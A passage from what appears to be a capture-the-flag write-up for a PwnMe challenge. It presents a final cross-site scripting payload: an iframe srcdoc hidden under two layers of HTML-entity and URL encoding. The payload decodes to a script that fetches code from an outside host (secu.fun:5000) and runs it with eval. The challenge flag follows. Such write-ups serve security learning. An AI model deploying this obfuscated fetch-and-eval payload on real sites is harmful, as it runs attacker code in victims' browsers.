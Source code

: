 Pass it to the `srcdoc iframe` and apply the both encoding like on the challenge part 1, finally we have our last payload !!

```url
http://localhost/?q=%3Ciframe%20srcdoc%3D%22%26lt%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26gt%3B%26%23102%3B%26%23101%3B%26%23116%3B%26%2399%3B%26%23104%3B%26lpar%3B%26quot%3B%26%23104%3B%26%23116%3B%26%23116%3B%26%23112%3B%26colon%3B%26sol%3B%26sol%3B%26%23115%3B%26%23101%3B%26%2399%3B%26%23117%3B%26period%3B%26%23102%3B%26%23117%3B%26%23110%3B%26colon%3B%26%2353%3B%26%2348%3B%26%2348%3B%26%2348%3B%26sol%3B%26%23112%3B%26%2397%3B%26%23121%3B%26%23108%3B%26%23111%3B%26%2397%3B%26%23100%3B%26quot%3B%26rpar%3B%26period%3B%26%23116%3B%26%23104%3B%26%23101%3B%26%23110%3B%26lpar%3B%26lpar%3B%26%23114%3B%26%23101%3B%26%23115%3B%26%23112%3B%26%23111%3B%26%23110%3B%26%23115%3B%26%23101%3B%26rpar%3B%26%2332%3B%26equals%3B%26gt%3B%26%2332%3B%26%23114%3B%26%23101%3B%26%23115%3B%26%23112%3B%26%23111%3B%26%23110%3B%26%23115%3B%26%23101%3B%26period%3B%26%23116%3B%26%23101%3B%26%23120%3B%26%23116%3B%26lpar%3B%26rpar%3B%26rpar%3B%26period%3B%26%23116%3B%26%23104%3B%26%23101%3B%26%23110%3B%26lpar%3B%26lpar%3B%26%23116%3B%26%23101%3B%26%23120%3B%26%23116%3B%26rpar%3B%26%2332%3B%26equals%3B%26gt%3B%26%2332%3B%26%23101%3B%26%23118%3B%26%2397%3B%26%23108%3B%26lpar%3B%26%23116%3B%26%23101%3B%26%23120%3B%26%23116%3B%26rpar%3B%26rpar%3B%26lt%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26gt%3B%22
```

![](flag.png)

Flag 2 : `PWNME{Th3re_ls_Mu1T1pL3_US4g3_Of_C4CH3:333}`